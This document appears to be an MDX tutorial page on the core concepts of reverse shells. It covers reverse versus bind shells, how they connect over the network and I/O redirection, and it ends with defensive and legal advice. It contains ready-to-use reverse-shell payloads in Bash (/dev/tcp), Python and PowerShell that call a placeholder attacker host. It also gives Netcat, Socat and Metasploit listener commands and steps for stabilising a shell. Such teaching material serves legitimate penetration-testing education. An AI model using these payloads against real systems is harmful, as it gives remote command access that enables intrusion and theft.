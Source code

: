 ```yaml
---
title: Core Concepts of Reverse Shells
description: Understanding the fundamental principles and mechanics of reverse shells
---
```



This section explores the fundamental principles and mechanics that make reverse shells work, providing a solid foundation for understanding more advanced techniques.

## What Is a Reverse Shell?

A reverse shell is a type of shell connection in which the target machine initiates a connection back to the attacker's machine, rather than the attacker connecting to the target. This approach effectively reverses the typical client-server relationship, with the target acting as the client and the attacker's system serving as the server.

<Tabs defaultValue="comparison" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="comparison">Reverse vs. Bind Shells</TabsTrigger>
    <TabsTrigger value="mechanics">How They Work</TabsTrigger>
    <TabsTrigger value="components">Key Components</TabsTrigger>
  </TabsList>
  <TabsContent value="comparison">
    <div className="grid grid-cols-2 gap-4">
      <div className="border p-4 rounded-md">
        <h3 className="text-lg font-bold">Reverse Shell</h3>
        <ul className="list-disc pl-5">
          <li>Target connects back to attacker</li>
          <li>Bypasses inbound firewall restrictions</li>
          <li>Works when target is behind NAT</li>
          <li>Requires attacker to have public IP or reachable address</li>
          <li>More commonly used in penetration testing</li>
        </ul>
      </div>
      <div className="border p-4 rounded-md">
        <h3 className="text-lg font-bold">Bind Shell</h3>
        <ul className="list-disc pl-5">
          <li>Attacker connects to target</li>
          <li>Requires open inbound port on target</li>
          <li>Often blocked by firewalls</li>
          <li>Target must be directly reachable</li>
          <li>Simpler to implement but less reliable</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  <TabsContent value="mechanics">
    <ol className="list-decimal pl-5">
      <li>Attacker sets up a listener on a specific port (e.g., using Netcat)</li>
      <li>Target executes code that creates a connection to the attacker's IP and port</li>
      <li>The connection carries the target's command shell input/output streams</li>
      <li>Commands entered on the attacker's machine are executed on the target</li>
      <li>Output from these commands is sent back to the attacker</li>
    </ol>
    <p className="mt-4">This process effectively gives the attacker remote command-line access to the target system, bypassing many common security controls.</p>
  </TabsContent>
  <TabsContent value="components">
    <ul className="list-disc pl-5">
      <li><strong>Listener</strong>: The component on the attacker's machine that waits for incoming connections</li>
      <li><strong>Payload</strong>: The code executed on the target that establishes the connection</li>
      <li><strong>Transport Protocol</strong>: Typically TCP, though UDP and other protocols can be used</li>
      <li><strong>Shell Environment</strong>: The command interpreter (bash, cmd.exe, PowerShell, etc.) that processes commands</li>
      <li><strong>I/O Redirection</strong>: The mechanism that redirects input/output streams over the network connection</li>
    </ul>
  </TabsContent>
</Tabs>

## Network Communication Fundamentals

Understanding the network communication aspects of reverse shells is crucial for both implementation and troubleshooting.

### TCP vs. UDP

Most reverse shells use TCP (Transmission Control Protocol) because it:
- Provides reliable, ordered delivery of data
- Establishes a persistent connection
- Confirms successful transmission of commands and responses

UDP-based reverse shells are less common but may be useful in specific scenarios where:
- TCP traffic is heavily monitored or filtered
- Connection reliability is less critical than evasion
- Stateless communication is preferred

### Ports and Listeners

When setting up a reverse shell:

- **Port Selection**: Choose ports that are:
  - Commonly allowed through firewalls (80, 443, 53, 8080)
  - Associated with expected outbound traffic from the target
  - Not already in use on your attacking system

- **Listener Configuration**:
  ```bash
  # Basic Netcat listener
  nc -lvnp 443
  
  # Socat listener with more features
  socat -d -d TCP-LISTEN:443,fork STDOUT
  
  # Metasploit listener
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST attacker-ip
  set LPORT 443
  run
  ```

## I/O Redirection

The core mechanism of a reverse shell involves redirecting standard input, output, and error streams over the network connection:

```
┌─────────────┐                 ┌─────────────┐
│             │                 │             │
│  Attacker   │◄───Standard─────┤   Target    │
│  (Server)   │    Output       │  (Client)   │
│             │                 │             │
│             │─────Standard────►│             │
│             │     Input        │             │
└─────────────┘                 └─────────────┘
```

### Stream Redirection in Different Languages

<Tabs defaultValue="bash" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="bash">Bash</TabsTrigger>
    <TabsTrigger value="python">Python</TabsTrigger>
    <TabsTrigger value="powershell">PowerShell</TabsTrigger>
  </TabsList>
  <TabsContent value="bash">
    ```bash
    # Redirecting stdin, stdout, and stderr in Bash
    bash -i >& /dev/tcp/attacker-ip/443 0>&1
    
    # Breaking it down:
    # bash -i                 # Interactive bash shell
    # >&                      # Redirect stdout and stderr
    # /dev/tcp/IP/PORT        # Special file representing TCP connection
    # 0>&1                    # Redirect stdin to the same connection
    ```
  </TabsContent>
  <TabsContent value="python">
    ```python
    # Python reverse shell with socket-based I/O redirection
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("attacker-ip",443))
    os.dup2(s.fileno(),0)  # Redirect stdin
    os.dup2(s.fileno(),1)  # Redirect stdout
    os.dup2(s.fileno(),2)  # Redirect stderr
    subprocess.call(["/bin/sh","-i"])
    ```
  </TabsContent>
  <TabsContent value="powershell">
    ```powershell
    # PowerShell stream redirection
    $client = New-Object System.Net.Sockets.TCPClient("attacker-ip",443)
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535|%{0}
    
    # Command execution and I/O redirection loop
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (iex $data 2>&1 | Out-String)
        $sendback2 = $sendback + "PS " + (pwd).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
    ```
  </TabsContent>
</Tabs>

## Shell Stability and Interactivity

Raw reverse shells often have limitations:
- Lack of tab completion
- No command history
- Cannot run interactive programs
- Vulnerable to termination if the connection is disrupted

### Shell Stabilization Techniques

<Stepper>
  <StepperItem title="Python PTY Method">
    On Linux targets, upgrade a basic shell using Python:
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    This creates a pseudo-terminal, improving interactivity.
  </StepperItem>
  <StepperItem title="Stty Raw Mode">
    Background the shell with Ctrl+Z, then:
    ```bash
    stty raw -echo
    fg
    ```
    This disables local terminal echo and allows special characters to pass through.
  </StepperItem>
  <StepperItem title="Set Terminal Environment">
    ```bash
    export TERM=xterm
    ```
    This enables terminal features like clear screen and command editing.
  </StepperItem>
  <StepperItem title="Adjust Terminal Size">
    In a separate terminal on the attacker machine:
    ```bash
    stty size
    ```
    Then in the reverse shell:
    ```bash
    stty rows 38 columns 116
    ```
    Replace the numbers with your actual terminal dimensions.
  </StepperItem>
</Stepper>

## Security Implications

Understanding reverse shells from a security perspective is essential for both offensive and defensive purposes:

### Offensive Considerations

- **Initial Access**: Reverse shells typically require some form of initial access or code execution
- **Command and Control**: They serve as a basic command and control channel
- **Persistence**: Can be combined with persistence mechanisms for maintaining access
- **Privilege Escalation**: Often used after gaining initial access to escalate privileges

### Defensive Considerations

- **Network Monitoring**: Watch for unusual outbound connections
- **Egress Filtering**: Restrict outbound connections to approved services and ports
- **Application Controls**: Implement whitelisting to prevent unauthorized executables
- **Endpoint Protection**: Deploy solutions that can detect suspicious process behavior
- **Network Segmentation**: Limit lateral movement capabilities

## Ethical and Legal Considerations

Reverse shells are powerful tools that should only be used:
- During authorized penetration tests
- On systems you own or have explicit permission to test
- Within the scope of a clearly defined engagement
- In compliance with all applicable laws and regulations

Unauthorized use of reverse shells on systems without permission is illegal in most jurisdictions and can result in severe legal consequences.

In the next section, we'll explore the various types of reverse shells and their implementations across different languages and platforms.
